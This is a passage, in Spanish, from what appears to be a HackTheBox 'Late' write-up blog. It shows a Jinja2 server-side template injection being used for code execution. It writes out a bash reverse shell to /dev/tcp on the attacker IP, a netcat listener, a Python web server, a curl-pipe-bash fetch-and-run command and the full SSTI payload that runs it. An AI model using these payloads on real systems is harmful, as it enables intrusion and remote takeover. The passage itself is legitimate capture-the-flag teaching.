 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463bash_SSTI_PY_RCE_id.png" style="width: 100%;"/>

Ejeeeepaa! Vemos el resultado de ejecutar el comando `id`, somos el usuario `svc_acc` (: Levantemos una reverse shell (una terminal remota en la máquina víctima):

(Existen como siempre varias formas de hacer X cosa, yo lo haré así:)

Crearemos un archivo con el contenido que queremos que sea ejecutado por la máquina víctima, lo llamaré `rev.sh`:

```bash
❱ cat rev.sh
#!/bin/bash

bash -i &> /dev/tcp/10.10.14.129/4433 0>&1
```

Lo que hará es enviar una petición al puerto **4433** de la dirección IP **10.10.14.129** con una `/bin/bash`, lo que quiere decir que si se establece una conexión, la máquina víctima generará una **bash** (shell).

Procedamos a ponernos en escucha por ese puerto:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Listos, lo único que nos queda hacer es que la máquina llegue a nuestro archivo y lo ejecute, validemos si existe `curl`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463bash_SSTI_PY_RCE_whichCURL.png" style="width: 100%;"/>

Sigamos entonces, vamos a hacer que con `curl` la máquina lea el archivo y con pipes que lo ejecute, levantemos un servidor web donde tenemos alojado el archivo `rev.sh`:

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y esto sería lo que le diremos que ejecute:

```bash
curl http://10.10.14.129:8000/rev.sh|bash
```

Le damos formato al payload:

{% raw %}
```bash
# '{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("curl http://10.10.14.129:8000/rev.sh|bash").read()}}'
❱ python3 sstImage.py '{{se...open("curl http://10.10.14.129:8000/rev.sh|bash").read()}}'
```
{% endraw %}

Ejecutamoooooos yyyyyy en nuestro puerto activoooo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463bash_svcacc_RevSH.png" style="width: 100%;"/>
